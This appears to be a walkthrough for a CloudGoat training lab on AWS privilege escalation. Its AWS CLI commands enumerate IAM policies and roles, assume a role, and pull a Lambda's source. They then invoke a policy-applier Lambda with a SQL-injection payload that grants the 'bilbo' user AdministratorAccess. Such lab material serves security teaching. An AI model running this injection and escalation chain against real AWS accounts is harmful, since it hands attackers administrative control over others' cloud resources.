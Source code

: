 1. Get permissions for the 'bilbo' user.

    ```bash
    # This command will give you the ARN & full name of you user.
    aws --profile bilbo --region us-east-1 sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile bilbo --region us-east-1 iam list-user-policies --user-name [your_user_name]
    # This command will list all of your permissions.
    aws --profile bilbo --region us-east-1 iam get-user-policy --user-name [your_user_name] --policy-name [your_policy_name]
    ```

2. List all roles, assume a role for privesc.

 #TODO: LIST POLICIES FOR SAID ROLES

    ```bash
    # This command will list all the roles in your account, one of which should be assumable. 
    aws --profile bilbo --region us-east-1 iam list-roles | grep cg-
    # This command will get you credentials for the cloudgoat role that can invoke lambdas.
    aws --profile bilbo --region us-east-1 sts assume-role --role-arn [cg-lambda-invoker_arn] --role-session-name [whatever_you_want_here]

    ```


3. List lambdas to identify the target lambda.

    ```bash
    # This command will show you two cloudgoat functions. One function is the target function that you need
    # to invoke in order to finish this scenario. The other function can apply a predefined set of
    # aws managed policies to users (in reality it can only modify the bilbo user).
    aws --profile assumed_role --region us-east-1 lambda list-functions
    ```
4. Look at the lambda source code. You should see the database structure in a comment, 
as well as the code that is handling input parameters. It's vulnerable to an injection, and 
we'll see what an exploit looks like in the next step.

    ```bash
    # This command will return a bunch of information about the lambda that can apply policies to bilbo.
    # part of this information is a link to a url that will download the deployment package, which
    # contains the source code for the function.
    aws --profile assumed_role --region us-east-1 lambda get-function --function-name [policy_applier_lambda_name]
    ```
5. Invoke the role applier lambda function, passing the name of the bilbo user and the injection payload. 

    ```bash
    aws --profile assumed_role --region us-east-1 lambda invoke --function-name [policy_applier_lambda_name] --cli-binary-format raw-in-base64-out --payload '{"policy_names": ["AdministratorAccess'"'"' --"], "user_name": [bilbo_user_name_here]}' out.txt
    ```
6. Now that Bilbo is an admin, use credentials for that user to invoke the target lambda. 

    ```bash
    # This command invokes the target lambda
    aws --profile bilbo --region us-east-1 lambda invoke --function-name cg-lambda_injection_privesc_cgid05fabeanxc-target_lambda output.txt
    # This reads the response from the lambda
    cat output.txt
    ```

# place secret in secrets manager and read it out